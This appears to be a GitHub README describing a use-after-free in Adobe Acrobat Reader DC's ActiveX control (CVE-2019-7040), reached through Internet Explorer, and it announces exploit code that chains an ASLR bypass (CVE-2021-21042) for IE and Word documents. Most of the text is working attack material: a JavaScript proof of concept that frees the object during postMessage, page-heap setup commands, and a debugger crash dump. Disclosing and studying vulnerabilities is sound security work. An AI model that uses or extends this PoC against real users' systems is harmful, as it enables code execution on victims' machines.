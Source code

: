 # Microsoft Internet Explorer 11 (protected mode off) & Adobe Acrobat Reader DC ActiveX

A use-after-free vulnerability while processing the ActiveX function "postMessage" was identified in Adobe Acrobat Reader DC some years ago, [CVE-2019-7040](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-7040) was issued for it. Here go **POCs and exploit code for Microsoft Internet Explorer & Microsoft Word (in DOCX & RTF formats)** which uses another vulnerability, [CVE-2021-21042](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-21042), in order to bypass ASLR. 

## Description

Taking a look at the Type Library of ActiveX control named "Adobe PDF Reader" with ProgIds suches as "AcroPDF.PDF" or "AcroPDF.PDF.1" and CLSID "CA8A9780-280D-11CF-A24D-444553540000", we will observe the next:

```cpp
   void postMessage(object strArray);
   void execCommand(object strArray);
```

Functions **"postMessage" & "execCommand"** use as argument an **array element**. So it would be possible to define something like this (also possible to use "execCommand" instead of "postMessage"):

```js

var myobj = new ActiveXObject("AcroPDF.PDF");
myobj.src = "testcase.pdf";
var arr = ["foo", "bar"];
Object.defineProperty(arr, '0', {
    get: function() {
        myobj.LoadFile("test");
        return "foo";
    }
});

myobj.postMessage(arr);

```

No crash with page heap disabled. However, enabling page heap for process iexplore.exe, **next crash is got** (maybe needed to refresh the page in order to reproduce):

```
C:\Program Files (x86)\Windows Kits\10\Debuggers\x64>gflags.exe /i iexplore.exe +ust +hpa
Current Registry Settings for iexplore.exe executable are: 02001000
    ust - Create user mode stack trace database
    hpa - Enable page heap
```

```
(fe0.21d0): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
*** ERROR: Symbol file could not be found.  Defaulted to export symbols for C:\Program Files (x86)\Common Files\Adobe\Acrobat\ActiveX\AcroPDFImpl.dll - 
eax=0c4fc34c ebx=00000000 ecx=0dedefa8 edx=00000020 esi=65c93a48 edi=00000000
eip=65c57750 esp=0c4fc340 ebp=0c4fc350 iopl=0         nv up ei pl zr na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010246
AcroPDFImpl!DllUnregisterServer+0xb286:
65c57750 ff7140          push    dword ptr [ecx+40h]  ds:002b:0dedefe8=????????
0:009> !heap -p -a ecx
    address 0dedefa8 found in
    _DPH_HEAP_ROOT @ 7671000
    in free-ed allocation (  DPH_HEAP_BLOCK:         VirtAddr         VirtSize)
                                    d87257c:          dede000             2000
    6af6ab02 verifier!AVrfDebugPageHeapFree+0x000000c2
```